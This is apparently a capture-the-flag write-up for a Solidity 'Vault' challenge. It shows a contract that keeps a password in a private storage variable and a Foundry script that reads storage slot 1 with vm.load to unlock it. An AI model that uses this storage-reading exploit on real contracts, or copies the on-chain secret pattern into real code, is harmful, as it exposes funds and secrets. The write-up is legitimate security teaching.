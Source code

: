 # 8 Vault

`Vault.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

- Goal 

1. We need to unlock the vault.

- Solution

1. We can simply call the `unlock()` function with password. But the password was not publicly accessible. 
2. Declaring a variable `private` doesn't mean that no one can read that variable. Only the other contracts which interacts with it won't able to view that variable.
3. Anyone from off-chain can easily query that value. We see that password is stored in storage slot 1.
4. We can use foundry cheatcode `vm.load` to read password and call the `unlock()` to unlock the vault.

`VaultSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Vault} from "../src/Vault.sol";

contract VaultSolve is Script {
    Vault public vault = Vault(0x80C30D2FE8e45F588d70bc5D530939c7f1b22f94);
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        console.log("Vault locked : ", vault.locked());
        bytes32 password = vm.load(address(vault), bytes32(uint256(1)));
        console.logBytes32(password);
        vault.unlock(password);

        console.log("Vault locked : ", vault.locked());
        vm.stopBroadcast();
    }
}
```

